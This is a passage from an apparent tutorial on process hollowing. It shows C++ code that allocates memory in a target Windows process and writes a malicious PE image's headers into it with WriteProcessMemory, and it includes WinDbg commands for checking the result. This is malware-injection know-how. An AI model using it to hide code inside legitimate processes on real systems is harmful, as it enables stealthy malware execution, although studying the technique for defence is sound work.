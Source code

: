```c++
std::cout << "[+] Successfully allocated memory in target process\n";
std::cout << "\t[i] pVictimHollowedAlloc -> 0x" << std::hex << pVictimHollowedAlloc << '\n';
```

## Injecting Malicious Image

We can’t just inject the image and be done with it due to how the Windows loader loads PE files. In order to successfully inject the entire malicious PE file, we first need to copy two different things from the malicious image to the hollowed process:
- Malicious image headers
- Malicious image sections

Let’s start with the simplest part: copying the `malicious image headers`. We can do this using the `WriteProcessMemory()` API. The size of the malicious image headers is determined by parsing the `SizeOfHeaders` field from the `OptionalHeader`.

```c++
// Write malicious process headers into the target process
WriteProcessMemory(pVictimProcessInfo->hProcess,
 (PVOID)pVictimImageBaseAddr,
 pMalImage,
 pNTHeaders->OptionalHeader.SizeOfHeaders,
 0);
std::cout << "\t[i] Headers written into target process\n";
```

We can also view this in WinDbg by setting a breakpoint after the `WriteProcessMemory()` call. From the memory dump, we can see that, in my case, the malicious image is loaded at the `0x01090000` address.

![Malicious image loaded](/assets/img/posts/img_process_hollowing/malicious_image_loaded.png)
_Figure 7: Malicious image loaded at `0x01090000` address._

We can now view the `IMAGE_DOS_HEADER` structure by using the following WinDbg command:

```text
dt -r ntdll!_IMAGE_DOS_HEADER 0x01090000
```
